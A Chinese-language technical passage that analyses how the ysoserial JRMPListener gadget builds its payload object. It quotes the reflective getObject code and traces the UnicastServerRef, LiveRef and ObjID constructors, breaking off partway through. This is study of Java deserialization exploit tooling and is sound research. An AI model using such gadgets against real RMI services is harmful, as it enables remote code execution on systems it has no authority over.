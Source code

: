 ### payloads.JRMPListener生成payload

生成Payload Object的主要在于JRMPListener的getObject方法

```plain
public UnicastRemoteObject getObject ( final String command ) throws Exception {
    // 端口
    int jrmpPort = Integer.parseInt(command);
    UnicastRemoteObject uro = Reflections.createWithConstructor(ActivationGroupImpl.class, RemoteObject.class, new Class[] {
        RemoteRef.class
    }, new Object[] {
        new UnicastServerRef(jrmpPort)
    });

    Reflections.getField(UnicastRemoteObject.class, "port").set(uro, jrmpPort);
    return uro;
}
```

在程序第二句使用Reflections.createWithConstructor方法构造一个UnicastRemoteObject对象，传递了四个参数  
观察传入的第四个参数，将端口作为参数new一个UnicastServerRef对象，进入该类构造函数

```plain
public UnicastServerRef(int var1) {
    // LiveRef是UnicastServerRef的父类UnicastRef的嵌套类，它表示一个远程对象的引用
    super(new LiveRef(var1));
    this.forceStubUse = false;
    this.hashToMethod_Map = null;
}
```

进入LiveRef的构造函数

```plain
public LiveRef(int var1) {
    this(new ObjID(), var1);
}
```

继续进入ObjID的构造函数

```plain
public ObjID() {
    /*
        * If generating random object numbers, create a new UID to
        * ensure uniqueness; otherwise, use a shared UID because
        * sequential object numbers already ensure uniqueness.
        */
    if (useRandomIDs()) {
        // 如果使用随机对象编号，创建一个新的UID对象，并将其赋值给space字段。UID是Java中的唯一标识符，用于表示全局唯一的标识符
        space = new UID();
        // 生成一个随机的long类型的对象编号
        objNum = secureRandom.nextLong();
    } else {
        space = mySpace;
        objNum = nextObjNum.getAndIncrement();
    }
}
```
